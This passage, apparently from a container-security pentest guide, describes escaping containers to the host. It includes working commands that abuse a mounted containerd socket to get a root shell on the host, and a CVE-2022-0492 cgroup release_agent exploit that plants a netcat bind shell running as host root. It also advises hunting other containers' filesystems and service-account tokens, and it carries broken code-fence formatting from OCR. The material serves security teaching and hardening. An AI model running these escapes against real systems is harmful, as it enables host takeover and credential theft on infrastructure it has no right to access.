 ```
$ sudo ls -la /var/lib/docker/overlay2

drwx--x---  4 root root  4096 Jan  9 22:14 00762bca8ea040b1bb28b61baed5704e013ab23a196f5fe4758dafb79dfafd5d
drwx--x---  4 root root  4096 Jan 11 17:00 03cdf4db9a6cc9f187cca6e98cd877d581f16b62d073010571e752c305719496
drwx--x---  4 root root  4096 Jan  9 21:23 049e02afb3f8dec80cb229719d9484aead269ae05afe81ee5880ccde2426ef4f
drwx--x---  4 root root  4096 Jan  9 21:22 062f14e5adbedce75cea699828e22657c8044cd22b68ff1bb152f1a3c8a377f2
<SNIP>
```
```
#### Note

The actual paths may differ in different setups, which is why your best bet is to use the **find** command to
locate the other containers' filesystems and SA / web identity tokens


### Other Sensitive Host Sockets and Directories (2023-2025)

Mounting certain host Unix sockets or writable pseudo-filesystems is equivalent to giving the container full root on the node. **Treat the following paths as highly sensitive and never expose them to untrusted workloads**:

```text
/run/containerd/containerd.sock     # containerd CRI socket
/var/run/crio/crio.sock             # CRI-O runtime socket
/run/podman/podman.sock             # Podman API (rootful or rootless)
/run/buildkit/buildkitd.sock        # BuildKit daemon (rootful)
/var/run/kubelet.sock               # Kubelet API on Kubernetes nodes
/run/firecracker-containerd.sock    # Kata / Firecracker
```
```
Attack example abusing a mounted **containerd** socket:

```bash
# inside the container (socket is mounted at /host/run/containerd.sock)
ctr --address /host/run/containerd.sock images pull docker.io/library/busybox:latest
ctr --address /host/run/containerd.sock run --tty --privileged --mount \
  type=bind,src=/,dst=/host,options=rbind:rw docker.io/library/busybox:latest host /bin/sh
chroot /host /bin/bash   # full root shell on the host
```
```
A similar technique works with **crictl**, **podman** or the **kubelet** API once their respective sockets are exposed.

Writable **cgroup v1** mounts are also dangerous. If `/sys/fs/cgroup` is bind-mounted **rw** and the host kernel is vulnerable to **CVE-2022-0492**, an attacker can set a malicious `release_agent` and execute arbitrary code in the *initial* namespace:

```bash
# assuming the container has CAP_SYS_ADMIN and a vulnerable kernel
mkdir -p /tmp/x && echo 1 > /tmp/x/notify_on_release

echo '/tmp/pwn' > /sys/fs/cgroup/release_agent   # requires CVE-2022-0492

echo -e '#!/bin/sh\nnc -lp 4444 -e /bin/sh' > /tmp/pwn && chmod +x /tmp/pwn
sh -c "echo 0 > /tmp/x/cgroup.procs"  # triggers the empty-cgroup event
```
```
When the last process leaves the cgroup, `/tmp/pwn` runs **as root on the host**. Patched kernels (>5.8 with commit `32a0db39f30d`) validate the writer’s capabilities and block this abuse.  

```